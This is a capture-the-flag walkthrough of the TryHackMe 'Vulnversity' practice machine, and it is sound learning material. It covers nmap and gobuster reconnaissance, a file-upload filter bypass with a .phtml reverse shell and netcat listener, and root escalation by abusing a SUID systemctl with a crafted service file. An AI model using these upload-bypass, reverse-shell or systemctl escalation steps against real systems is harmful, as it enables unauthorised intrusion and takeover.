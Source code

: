 ```yaml
---
title: TryHackMe - Vulnversity
layout: post
categories:
- TryHackMe
tag:
- recon,
- privesc,
- webappsec
image: assets/img/vulnversity.png
image_alt: vulversity
---
```


This is an easy CTF. Let's start.

<br>

## 1. Deploy the machine 

Connect to our network and deploy this machine. If you are unsure on how to get connected, complete the OpenVPN room first.

<br>

---

<br>

## 2. Reconnaissance  

Now that you’ve found the code for the backdoor, it’s time to analyse it.
Gather information about this machine using a network scanning tool called `nmap`.

<br>

### 2.1 Scan the box, how many ports are open?

Let's find out how many ports are open on the target with a simple `nmap` scan.

```
$ nmap -sSV 10.10.56.244
```

![nmap](/assets/img/tryhackme/vulnversity/nmap.png)

**Answer: `6`**

<br>

### 2.2 What version of the squid proxy is running on the machine?

As you may have noticed from the previous question, squid proxy is http-proxy running on port `3128/tcp`.

**Answer: `3.5.12`**

<br>

### 2.3 How many ports will nmap scan if the flag -p-400 was used?

**Answer: `400`**

<br>

### 2.4 Using the nmap flag -n what will it not resolve?

**Answer: `DNS`**

<br>

### 2.5 What is the most likely operating system this machine is running?

**Answer: `ubuntu`**

<br>

### 2.6 What port is the web server running on?

**Answer: `3333`**

<br>

---

<br>

## 3. Locating directories using GoBuster 

Using a fast directory discovery tool called GoBuster you will locate a directory that you can use to upload a shell to.

<br>

### 3.1 What is the directory that has an upload form page?

Now, let's do a directory scan using `gobuster`.

```
`$ gobuster dir -u http://10.10.56.244:3333/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/vulnversity/gobuster.png)

**Answer: `/internal/`**

<br>

---

<br>

## 4. Compromise the webserver   

Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

<br>

### 4.1 What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

I downloaded and tried pentest monkey's php-reverse-shell.php file, but it didn't upload.
[php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

![error](/assets/img/tryhackme/vulnversity/error.png)

**Answer: `.php`**

<br>

### 4.2 Run this attack, what extension is allowed?

Since the .php extension does not work here, we need to try other php extensions instead. If you want, you can do it manually or by using burp suite as tryhackme explained, I don't see the need to use burp suite for now. 

![success](/assets/img/tryhackme/vulnversity/success.png)

**Answer: `.phtml`**

<br>

### 4.3 What is the name of the user who manages the webserver?

Now we edit the reverse shell (we adjust the ip and port parts according to ourselves) and upload it. 

![set](/assets/img/tryhackme/vulnversity/set.png)

Then we open a listener for the port we wrote in the shell using `netcat`.

```
$ nc -nlvp 4444
```

Then we visit the shell that we uploaded to the target site. 

```
$ http://10.10.56.244:3333/internal/uploads/shell.phtml
```

And we are inside.

![in](/assets/img/tryhackme/vulnversity/in.png)

Now, to find out who the user is, we go to the `/home` directory and list the files using the `ls -la` command. There should be a folder with the user's name here.

![bill](/assets/img/tryhackme/vulnversity/bill.png)

**Answer: `bill`**

<br>

### 4.4 What is the user flag?

Now we open the `user.txt` owned by the user, Bill.

```
$ cat /home/bill/user.txt
```

![user-flag](/assets/img/tryhackme/vulnversity/user-flag.png)

<br>

---

<br>

## 5. Privilege Escalation    

Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

<br>

### 5.1 On the system, search for all SUID files. What file stands out?

_Hint: Use the command: find / -user root -perm -4000 -print 2>/dev/null_

![find](/assets/img/tryhackme/vulnversity/find.png)

**Answer: `/bin/systemctl`**

<br>

### 5.2 Become root and get the last flag (/root/root.txt).

_Hint: /bin/systemctl_

Let's enter the following codes one by one to raise privileges and access root.txt.

```
$ cat > /tmp/flag.service << EOF
> [Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /tmp/flag.txt"
> [Install]
> WantedBy=multi-user.target
> EOF
$ /bin/systemctl link /tmp/flag.service
$ /bin/systemctl enable --now /tmp/flag.service
$ cat /tmp/flag.txt 
```

![root-flag](/assets/img/tryhackme/vulnversity/root-flag.png)

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
